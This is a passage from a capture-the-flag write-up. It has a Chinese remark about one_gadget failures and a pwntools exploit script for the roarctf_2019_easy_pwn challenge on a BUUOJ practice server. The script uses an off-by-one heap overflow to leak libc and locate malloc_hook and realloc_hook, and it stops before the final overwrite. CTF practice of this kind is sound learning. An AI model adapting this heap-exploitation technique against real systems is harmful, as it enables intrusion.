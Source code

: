 实际测试后全部 onegadget 因为栈环境问题都无法打通，需要结合 malloc_hook 、 realloc_hook 调整栈环境才能打通。

#### EXP

```python
from pwn import *
context(log_level='debug',os='linux',arch='amd64')
# p = process("./roarctf_2019_easy_pwn")
p = remote("node3.buuoj.cn",29259)
elf = ELF("./roarctf_2019_easy_pwn")
libc = ELF("./libc-2.23.so")
# libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")


def create(size):
    p.recvuntil("choice: ")
    p.sendline("1")
    p.recvuntil(": ")
    p.sendline(str(size))
def edit(index,size,content):
    p.recvuntil("choice: ")
    p.sendline("2")
    p.recvuntil(": ")
    p.sendline(str(index))
    p.recvuntil(": ")
    p.sendline(str(size))
    p.recvuntil(": ")
    p.send(content)
def free(index):
    p.recvuntil(": ")
    p.sendline("3")
    p.recvuntil(": ")
    p.sendline(str(index))
def show(index):
    p.recvuntil(": ")
    p.sendline("4")
    p.recvuntil(": ")
    p.sendline(str(index))

create(0x18)#overwrite
create(0x68)
create(0x68)#2
create(0x10)#protect

payload = 'a'*0x18 + '\xe1'
edit(0,len(payload)-1+10,payload)

free(1)
create(0x68)
show(2)
p.recvuntil("content: ")
leak_addr = u64(p.recv(6).ljust(8,'\x00'))
log.info("leak_addr:"+hex(leak_addr))
libc_base = leak_addr - 0x3c4b78
malloc_hook = libc_base + libc.sym['__malloc_hook']
log.info("malloc_hook:"+hex(malloc_hook))
realloc = libc_base + libc.sym['realloc']
log.info("realloc:"+hex(realloc))
realloc_hook = libc_base + libc.sym['__realloc_hook']
log.info("realloc_hook:"+hex(realloc_hook))

create(0x68)
free(4)

```
